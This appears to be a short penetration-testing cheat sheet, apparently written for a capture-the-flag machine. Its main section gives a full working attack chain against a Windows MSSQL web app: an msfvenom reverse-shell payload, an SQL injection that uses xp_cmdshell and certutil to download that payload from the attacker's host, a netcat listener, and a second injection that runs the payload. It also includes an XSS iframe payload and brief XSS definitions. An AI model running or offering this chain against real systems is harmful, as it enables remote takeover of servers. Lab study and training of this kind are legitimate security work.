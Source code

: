 Generate Payload WIndows MSSQL
```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```
Start a Python HTTP Server
```shell-session
python3 -m http.server 8000
```

~~~
http://MACHINE_IP/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --
~~~
The above SQL statement will call **certutil** to download the **reverse.exe** file from our Python HTTP server and save it to the Windows temp directory for later use.

Start a netcat Listener
```shell-session
nc -lnvp 4444
```
Now, we can run one final stacked query to execute the **reverse.exe** file we previously saved in the `C:\Windows\Temp` directory:
```
http://MACHINE_IP/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --```
```

## XSS 
```HTML
	<iframe src="javascript:alert(`xss`)"> 
```
	

## DOM XSS 
uses the HTML environment to execute malicious javascript. 
This type of attack commonly uses the script \script HTML tag

## Persistent (Server-side) XSS

javascript that is run when the server loads the page containing it.

>These can occur when the server does not sanitise the user data when it is uploaded to a page. 

>These are commonly found on blog posts. 

## Reflected (Client-side) XSS

javascript that is run on the client-side end of the web application. 

>These are most commonly found when the server doesn't sanitise search data. 

---
# BruteForce
